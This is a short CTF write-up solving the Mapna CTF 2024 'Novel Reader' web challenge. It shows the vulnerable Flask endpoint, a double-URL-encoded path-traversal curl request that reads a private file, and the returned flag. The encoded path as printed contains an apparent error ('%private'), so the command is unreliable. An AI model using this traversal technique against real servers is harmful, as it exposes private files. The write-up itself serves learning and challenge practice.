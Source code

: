 # Novel Reader (web) from Mapna CTF 2024

Here is my writeup of how I solved Novel Reader from Mapna CTF 2024.

Firstly, we look at the source code defining the /api/read endpoint. We see that we are able to specify a path name. This makes me think this is an LFI challenge. This is when we exploit the fact that every directory has a .. directory that points to the parent directory. 
```
@app.get('/api/read/<path:name>')
def readNovel(name):
    name = unquote(name)
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
    buf = readFile(name).split(' ')
    buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
    return {'success': True, 'msg': buf}
```
We add a couple "../"s to get to a parent directory before adding /private/A-Secret-Tale.txt to our URL to get the contents of the A-Secret-Tale.txt file. I used curl to pass in our cookie (called session) and to get the contents of the URL we specified. One more thing I learned is that URLs are encoded in a certain way. This means we can't have . or / in our URL like we usually do. All I had to do was run our URL through a URL encoder twice to get the following command
```
curl -b "session=[insert a long string of letter and numbers that our session cookie is set to]" http://3.64.250.135:9000/api/read/public/%252F%252E%252E%252F%private%252FA-Secret-Tale.txt
```
This returns the contents of A-Secret-Tale.txt along with the string '... Charge your account to unlock more of the novel!' concatenated to our flag
```
{"msg": "Once upon a time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!", "success":true}
```

